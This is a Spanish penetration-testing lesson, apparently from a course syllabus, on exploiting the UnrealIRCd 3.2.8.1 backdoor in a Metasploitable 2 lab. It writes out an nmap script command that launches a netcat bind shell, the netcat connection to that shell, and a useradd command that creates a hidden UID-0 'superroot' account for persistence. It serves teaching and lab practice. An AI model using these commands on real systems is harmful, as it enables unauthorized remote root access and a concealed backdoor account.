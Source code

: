 - Es crucial recordar que la implementación de backdoors y herramientas de persistencia debe realizarse con el único propósito de mejorar la seguridad del sistema y ayudar en la mitigación de vulnerabilidades. La conducta ética y la transparencia son fundamentales en todas las etapas de las pruebas de penetración.

## **Backdoors deUnrealIRCd y persistencia en Metasploitable 2**

UnrealIRCd es un servidor IRC Open Source. En el mes de noviembre del año 2009 el archivo de nombre “Unreal3.2.8.1.tar.gz” fue reemplazado por una versión conteniendo una puerta trasera (troyano). Esta puerta trasera permitía a cualquier persona ejecutar diversos comandos con los privilegios del usuario ejecutando ircd. La puerta trasera era ejecutada sin importar las restricciones del usuario. Para la siguiente práctica se utilizaremos, como siempre, Metasploitable 2 y Kali Linux.

Centramos la atención en el servicio IRC del puerto TCP 6667.

![IRC](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/irc.png?raw=true)

Utilizaremos el Script NSE de nombre “irc-unrealircd-backdoor.nse” incluida en Nmap, el cual permite verificar si este servidor IRC contiene la puerta trasera.

> nmap -n -Pn -p 6667 --script=irc-unrealircd-backdoor.nse 192.168.1.49

![script-irc](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/script-irc.png?raw=true)

El argumento de nombre "irc-unrealircd-backdoor.command" del script, puede ser utilizado para ejecutar comandos arbitrarios en el sistema remoto. Debido a la naturaleza de esta vulnerabilidad (El resultado nunca es devuelto) no se tiene manera de obtener la salida del comando.

> nmap -n -Pn -p 6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -l -p 7777 -e /bin/sh' 192.168.1.49
> 

![backdoor](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/backdoor.png?raw=true)

Desde otra terminal se utiliza la herramienta netcat para establecer una conexión hacia el puerto TCP 7777.

# nc -n -vv 192.168.1.49 7777

![nc](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/nc.png?raw=true)

> Uname -a

La conexión se ha establecido correctamente. Y ya se tiene acceso en el objetivo de evaluación con los privilegios del usuario root. Completando el punto anterior podemos crear un user root para mantener nuestra persistencia.

> useradd -o --uid 0 superroot

![useradd](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/useradd.png?raw=true)

Herramientas para actividades
